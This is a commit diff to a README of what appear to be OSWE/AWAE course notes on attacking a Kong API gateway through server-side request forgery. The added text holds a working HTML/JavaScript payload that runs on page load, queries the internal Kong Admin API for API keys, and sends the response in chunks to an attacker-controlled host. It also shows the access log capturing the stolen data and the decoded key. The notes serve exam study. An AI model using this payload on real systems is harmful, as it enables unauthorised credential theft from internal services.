

Before and after one commit to m0hammad-yaser/OSWE-AWAE-Notes, a Markdown page: apigateway/README.md, the part around the change. Shown: that part at 80% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/apigateway/README.md
+++ b/apigateway/README.md
@@ -629,5 +629,53 @@ Next, we'll turn our focus to stealing credentials from the Kong Admin API with
 
 We can find the Admin API endpoint that returns API keys in Kong's documentation. Let's update our JavaScript function to call `/key-auths`, call the Render service, and then check `access.log`.
 ```html
+<html>
+<head>
+<script>
+function exfiltrate() {
+    // Send initial status
+    fetch("http://192.168.45.203/status?msg=script_started").catch(() => {});
 
+    fetch("http://172.16.16.2:8001/key-auths")
+    .then((response) => {
+        fetch("http://192.168.45.203/status?msg=kong_response_received&status=" + response.status).catch(() => {});
+        return response.text();
+    })
+    .then((data) => {
+        fetch("http://192.168.45.203/status?msg=data_received&length=" + data.length).catch(() => {});
+        chunks = data.match(new RegExp('.{1,1024}','g'));
+        for(i = 0; i < chunks.length; i++) {
+            fetch("http://192.168.45.203/callback?chunk=" + i + "&data=" + encodeURIComponent(chunks[i])).catch(() => {});
+        }
+    })
+    .catch((error) => {
+        fetch("http://192.168.45.203/error?msg=" + encodeURIComponent(error.toString())).catch(() => {});
+    });
+}
+</script>
+</head>
+<body onload='exfiltrate()'>
+<div></div>
+</body>
+</html>
 ```
+After triggering the SSRF, we got the response to our kali machine
+```log
+┌──(kali㉿kali)-[/var/www/html]
+└─$ tail -f /var/log/apache2/access.log
+192.168.217.135 - - [29/Jul/2025:14:22:15 -0400] "GET /exfil.html HTTP/1.1" 200 768 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
+192.168.217.135 - - [29/Jul/2025:14:22:15 -0400] "GET /status?msg=script_started HTTP/1.1" 404 492 "http://192.168.45.203/exfil.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
+192.168.217.135 - - [29/Jul/2025:14:22:15 -0400] "GET /status?msg=kong_response_received&status=200 HTTP/1.1" 404 492 "http://192.168.45.203/exfil.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
+192.168.217.135 - - [29/Jul/2025:14:22:15 -0400] "GET /status?msg=data_received&length=213 HTTP/1.1" 404 493 "http://192.168.45.203/exfil.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
+192.168.217.135 - - [29/Jul/2025:14:22:15 -0400] "GET /callback?chunk=0&data=%7B%22next%22%3Anull%2C%22data%22%3A%5B%7B%22created_at%22%3A1613767827%2C%22id%22%3A%22c34c38b6-4589-4a1e-a8f7-d2277f9fe405%22%2C%22tags%22%3Anull%2C%22ttl%22%3Anull%2C%22key%22%3A%22SBzrCb94o9JOWALBvDAZLnHo3s90smjC%22%2C%22consumer%22%3A%7B%22id%22%3A%22a8c78b54-1d08-43f8-acd2-fb2c7be9e893%22%7D%7D%5D%7D HTTP/1.1" 404 493 "http://192.168.45.203/exfil.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
+```
+After decoding the data, we find the API key.
+```json
+{"next":null,"data":[{
+  "created_at":1613767827,
+  "id":"c34c38b6-4589-4a1e-a8f7-d2277f9fe405",
+  "tags":null,
+  "ttl":null,
+  "key":"SBzrCb94o9JOWALBvDAZLnHo3s90smjC",
+  "consumer":{"id":"a8c78b54-1d08-43f8-acd2-fb2c7be9e893"}}]}
+```
````
